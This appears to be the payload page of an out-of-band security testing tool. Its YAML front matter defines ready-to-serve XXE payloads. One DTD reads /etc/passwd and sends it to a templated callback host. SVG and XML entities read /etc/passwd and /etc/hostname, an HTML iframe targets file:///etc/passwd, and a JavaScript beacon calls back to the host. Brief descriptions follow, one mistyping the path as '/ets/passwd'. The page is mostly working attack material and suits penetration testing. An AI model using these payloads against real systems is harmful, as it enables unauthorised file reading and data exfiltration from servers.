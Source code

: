 ```yaml
---
title: XXE
description: Various XXE Payloads
weight: 1
payloads:
  - type: HTTPX
    sort_order: 1
    pattern: /dt$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c?xml version=\"1.0\" encoding=\"ISO-8859-1\"?\u003e\\n \u003c!DOCTYPE foo [  \u003c!ELEMENT foo ANY \u003e \u003c!ENTITY xxe SYSTEM \"http://{{ .Host }}/{{ .AlertPattern }}/xxe-test\" \u003e]\u003e\u003cfoo\u003e\u0026xxe;\u003c/foo\u003e"}'

  - type: HTTPX
    sort_order: 1
    pattern: /evil\.dtd$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c!ENTITY % payl SYSTEM \"file:///etc/passwd\"\u003e\\n\u003c!ENTITY % int \"\u003c!ENTITY % trick SYSTEM ''http://{{ .Host }}:80/{{ .AlertPattern }}/xxe?p=%payl;''\u003e\"\u003e"}'

  - type: HTTPX
    sort_order: 1
    pattern: /hello$
    data: '{"headers":{"Content-Type":"application/json"},"body":"{\"data\":\"hello world\"}"}'

  - type: HTTPX
    sort_order: 1
    pattern: /ht$
    data: '{"headers":{"Content-Type":"text/html"},"body":"\u003chtml\u003e\u003cbody\u003e\u003cimg src=\"{{.AlertPattern}}/static-lh\" /\u003e\u003ciframe src=\"file:///etc/passwd\" height=\"500\"\u003e\u003c/iframe\u003e\u003c/body\u003e\u003c/html\u003e"}'

  - type: HTTPX
    sort_order: 1
    pattern: /js$
    data: '{"headers":{"Content-Type":"text/javascript"},"body":"var s = document.createElement(\"img\");document.body.appendChild(s); s.src=\"//{{ .Host }}/{{.AlertPattern}}/s\";"}'

  - type: HTTPX
    sort_order: 1
    pattern: /sh$
    data: '{"headers":{"Content-Type":"text/xml"},"body":"\u003c?xml version=\"1.0\" standalone=\"yes\"?\u003e\\n\u003c!DOCTYPE test [ \u003c!ENTITY xxe SYSTEM \"file:///etc/hostname\" \u003e ]\u003e\\n\u003csvg width=\"128px\" height=\"128px\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" version=\"1.1\"\u003e\\n\u003ctext font-size=\"16\" x=\"0\" y=\"16\"\u003e\u0026xxe;\u003c/text\u003e\\n\u003c/svg\u003e"}'

  - type: HTTPX
    sort_order: 1
    pattern: /sv$
    data: '{"headers":{"Content-Type":"image/svg+xml"},"body":"\u003c?xml version=\"1.0\" standalone=\"yes\"?\u003e\u003c!DOCTYPE ernw [ \u003c!ENTITY xxe SYSTEM \"file:///etc/passwd\" \u003e ]\u003e\u003csvg width=\"500px\" height=\"100px\" xmlns=\"http://www.w3.org/2000/svg\" xmlns:xlink=\"http://www.w3.org/1999/xlink\" version=\"1.1\"\u003e\u003ctext font-family=\"Verdana\" font-size=\"16\" x=\"10\" y=\"40\"\u003e\u0026xxe;\u003c/text\u003e\u003c/svg\u003e"}'
---
```


sweet tests and stuff

Returns an XXE payload that attempts to load a xodbox URL as an external entitiy.

Returns a DTD that attempts to grab `/ets/passwd`.

Returns an HTML payload with an iframe source to `/etc/passwd`.
